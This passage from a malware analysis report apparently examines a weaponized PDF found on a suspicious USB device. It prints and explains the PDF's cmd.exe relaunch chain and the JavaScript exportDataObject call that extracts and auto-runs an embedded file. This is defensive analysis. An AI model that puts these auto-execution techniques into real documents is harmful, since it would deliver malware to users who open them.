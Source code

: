 ### 12.2 Decoding Object 28 Command Chain

**Full Command:**
```batch
cmd.exe /Q /C %HOMEDRIVE%&cd %HOMEPATH%&(if exist "Desktop\README.pdf" (cd "Desktop"))&(if exist "My Documents\README.pdf" (cd "My Documents"))&(if exist "Documents\README.pdf" (cd "Documents"))&(if exist "Escritorio\README.pdf" (cd "Escritorio"))&(if exist "Mis Documentos\README.pdf" (cd "Mis Documentos"))&(start README.pdf)
```

**Parsed Execution Steps:**
1. `%HOMEDRIVE%` → Navigate to system drive (typically C:)
2. `cd %HOMEPATH%` → Change to user's home directory
3. `if exist "Desktop\README.pdf" (cd "Desktop")` → Check English Desktop folder
4. `if exist "My Documents\README.pdf" (cd "My Documents")` → Check legacy Windows path
5. `if exist "Documents\README.pdf" (cd "Documents")` → Check modern Windows path
6. `if exist "Escritorio\README.pdf" (cd "Escritorio")` → Check Spanish Desktop
7. `if exist "Mis Documentos\README.pdf" (cd "Mis Documentos")` → Check Spanish Documents
8. `start README.pdf` → Launch PDF from located directory

**Purpose:** Ensure PDF reopens regardless of:
* Windows version (legacy vs. modern paths)
* Operating system language (English, Spanish, etc.)
* User's save location preference

### 12.3 JavaScript Exploitation Details

**`exportDataObject()` Function Analysis:**

**Syntax:**
```javascript
this.exportDataObject({ 
    cName: "README",      // Name of embedded file to extract
    nLaunch: 0           // Launch behavior (0 = immediate execution)
});
```

**Parameters:**
* **`cName`:** Specifies embedded file name (case-sensitive)
* **`nLaunch`:** Controls post-extraction behavior
  - `0` = Open/execute file immediately
  - `1` = Prompt user for action (less malicious)
  - `2` = Save without opening (safest option)

**Security Implications:**
* **Automatic Execution:** `nLaunch: 0` eliminates user interaction
* **Privilege Context:** Executes with PDF reader's privileges (typically user-level)
* **File Location:** Extracted to temporary directory (varies by PDF reader)
* **Detection Challenge:** Legitimate API used for malicious purposes

---

✅ **Conclusion:**

The analysis of the suspicious USB device confirms a sophisticated multi-stage attack utilizing autorun functionality and weaponized PDF exploitation. The attack demonstrates advanced threat actor capabilities including JavaScript-based payload delivery, automatic execution mechanisms, multi-language environment support, and effective social engineering techniques. The infection chain successfully extracts and launches embedded malware with minimal user interaction, while maintaining legitimate appearance through decoy document display.
